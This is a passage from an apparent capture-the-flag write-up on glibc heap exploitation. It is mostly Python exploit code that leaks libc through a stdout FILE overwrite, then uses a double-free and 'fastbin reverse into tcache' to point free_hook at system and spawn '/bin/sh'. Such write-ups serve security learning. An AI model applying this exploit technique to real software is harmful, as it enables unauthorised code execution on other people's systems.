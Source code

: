 ```python
pause()     # <- when debugging, set to directly stdout struct
buy(0x38) # <- idx=1 / addr = 0x580
buy(0x38) # <- idx= 2
edit(2, p64(0xfbad1800) + p64(0) * 3 + b'\x08')     # <- print _IO_2_1_stdin_
libc_base = u64(r.recvn(6) + b'\x00' * 2) - 0x1ec980
print(hex(libc_base))
```
<br />

### get shell by 'fastbin reverse into tcache' technique
- After successfully getting libc's address, we can thought about overwrite malloc_hook or free_hook.
- We can allocate more than 14chunks and modify freed chunk by double-free, we can use 'fastbin reverse into tcache'.
- Although we can overwrite malloc_hook, there's no gadget that satisfies the conditions.
- In refund function, when it free chunk, it receives addr directly, so if we overwrite free_hook to system, we can exec system('/bin/sh').
<br />

```python
for i in range(14):
    buy(0x48)   # <- idx=12~25
for i in range(7):
    refund(12 + i)      # <- idx=12~18
refund(19)      # <- victim
refund(20)
refund(19)
for i in range(7):
    buy(0x48)   # idx=12~18
buy(0x48)   #idx=19
buy(0x48)   #idx=20
buy(0x48)   #idx=26  =  idx=19

for i in range(7):
    refund(12+i)        # <- idx=12~18
for i in range(7):
    refund(19+i)        # <- idx=19~25
edit(26, p64(libc_base + 0x1eee48 - 0x30))

for i in range(7):
    buy(0x48)   #idx=12~18
buy(0x48) #idx = 19 / reverse to tcache
buy(0x48) #idx = 20 / near malloc_hook
edit(20, b'/bin/sh\x00' + p64(0) * 3 + p64(libc_base + 0x52290))

refund(20)
```

<br />

## Ex code
